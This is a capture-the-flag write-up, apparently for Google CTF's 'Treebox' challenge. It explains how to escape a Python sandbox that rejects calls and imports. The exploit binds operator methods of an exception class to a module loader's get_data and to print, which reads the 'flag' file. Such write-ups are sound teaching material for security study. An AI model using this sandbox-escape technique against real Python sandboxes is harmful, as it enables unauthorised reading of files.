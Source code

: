 ```yaml
---
title: "Treebox"
date: 2022-08-19T10:04:36+05:30
tags:
- Google CTF
- CTF
- Python
- AST
- Sandbox Escape
draft: false
---
```


This challenge asks for python code as an input, converts it into an AST (abstract syntax tree) and if there aren't any function calls or imports, executes the code. Our goal here is to avoid explicitly calling any functions yet reading the flag located at `flag`. We also can't import any modules explicitly. If we read the source code provided for the challenge, we can observe that the `sys` module is already imported. We can piggyback on this fact to use its modules.

We shall, however, first find all the modules in `sys.modules` that have a `get_data` like function in their `__loader__` attribute. To do so, we run the following locally:

``` python
import sys

for name, handle in sys.modules.items():
    if loader := getattr(handle, '__loader__'):
        for loader_function_name in dir(loader):
            if 'get_data' in loader_function_name:
                print(f"sys.modules['{name}'].__loader__.{loader_function_name}")
```

From the output we get, this looks the most promising:

```python
sys.modules["os"].__loader__.get_data
```

Now we can slowly assemble our exploit.

```python
import sys

class Read(BaseException):
    # Set the addition operator to the str function
    # so that we can use it to stringify bytes-like
    # objects.
    __add__ = str

    # Set the division operator to os.loader.get_data method
    # which can be used to read the raw bytes from a file.
    __truediv__ = sys.modules["os"].__loader__.get_data

    # Set the indexing operator to print, which we'll use to
    # print the flag
    __getitem__ = print

    def __init__(self):

        # Now we read the raw bytes of the file "flag"
        # stringify it and finally print it
        self[self + self / "flag"]


# Raise the exception
raise Read

```
